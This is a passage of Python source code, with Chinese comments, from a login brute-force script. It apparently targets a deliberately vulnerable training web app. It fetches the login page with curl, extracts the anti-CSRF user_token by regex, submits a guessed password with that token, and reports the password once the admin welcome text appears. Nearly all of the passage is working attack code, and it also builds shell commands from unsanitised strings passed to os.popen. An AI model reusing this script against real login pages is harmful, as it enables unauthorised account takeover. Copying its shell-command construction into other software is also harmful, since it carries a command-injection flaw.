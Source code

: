 ```python
	
	cmd = "curl -s --location --request GET " + host + " --header 'Cookie: PHPSESSID=6db3502521fc376f123936246f53c91d; security=high' "
	cmd_result = os.popen(cmd)


	pattern = "(?<=user_token\' value=\')\w*"
	#re.findall return a list 
	regex_result = re.findall(pattern , cmd_result.read())
	
	token = ''.join(regex_result)
	#############################################

	password += pwd
	user_token += token	
	url = host + username + password + login + user_token
	
	url ="'" + url + "'"
	
	 
	
	#final request 	
	cmd2 = "curl -s --location --request GET " + url + " --header 'Cookie: PHPSESSID=6db3502521fc376f123936246f53c91d; security=high' "
	cmd2_result = os.popen(cmd2)	
	
	
	#成功登入會有以下字串
	key_word = "Welcome to the password protected area admin"
	#搜索字串
	find_result = cmd2_result.read().find(key_word)
	#有找到就顯示密碼
	if(find_result != -1):
		print("password found: "+pwd)
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	






```
